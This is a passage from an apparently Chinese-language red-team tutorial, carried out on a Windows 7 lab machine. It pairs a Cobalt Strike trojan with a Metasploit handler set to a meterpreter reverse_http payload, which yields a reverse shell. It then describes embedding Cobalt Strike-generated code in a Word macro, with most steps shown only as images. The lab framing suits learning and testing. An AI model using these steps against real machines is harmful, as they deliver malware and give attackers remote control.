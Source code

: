 

保存木马到windows 7 靶机 双击木马 发现目标已上线

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29AK9LVIdznm0Llia3Xia75faLnbczKQSiaTtryr97xOArAUXiaLgPUgDib0tw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



### 三、结合metasploit,反弹shell

msf 设置payload

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set lhost 192.168.5.11
lhost => 192.168.5.11
msf6 exploit(multi/handler) > exploit
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29AUicUx8Rt3uEia96v6yib8tuUOqkPwqIltYQ6LBhjCZQoSB8oTbV7uIIHA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



客户端 右键 

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29AEhLU0yAsibPbljM9u37icYznJb2icK28vfZf15tUYbwDGVGNQhiaxBxMjA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29A52XTjSa3Z0UbpNIQeico6GoR2P1EOX0BtUGDibRStgw8LnLaeUMPhEcQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

发现已经可以获取shell 了

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29A9QK9kQHiaQpby9JY9QGIzuQ8IRb3AKWeq9YhnQuWrpyI3cGVyXZzVTQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



### 四、office宏payload应用

第一步、生成office宏

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29AgflU9IMMfTqFnEGKpSdauD7UNeicMsibMK9rKFHEkictpAeXAKGpq94yw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



第二步，把cs生成的代码放到word宏里面去

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29AowFMBKLicNcYvutmxtokwUxm6AfbYFgmqonuarWfax23heaDXjUtcbQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

Cs 生成的代码直接放到创建里面去，注意：做试验的时候，宏的位置不要设置所有的活动模板和文档，建设应用在当前文档，不然本机所有word文档运行都会种上你的木马，另外打开word文档有宏提示，一般是word默认禁用所有宏（文件—选项—信任中心—信任中心设置里面配置）。

![图片](https://mmbiz.qpic.cn/mmbiz_png/BAby4Fk1HQaePcE9VAbUPQiadAm7ze29A47w0CzETC5y3vJUMDzy0IgGZ0npnUqf9odby84XPdoicCeyg3QNKx5Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)


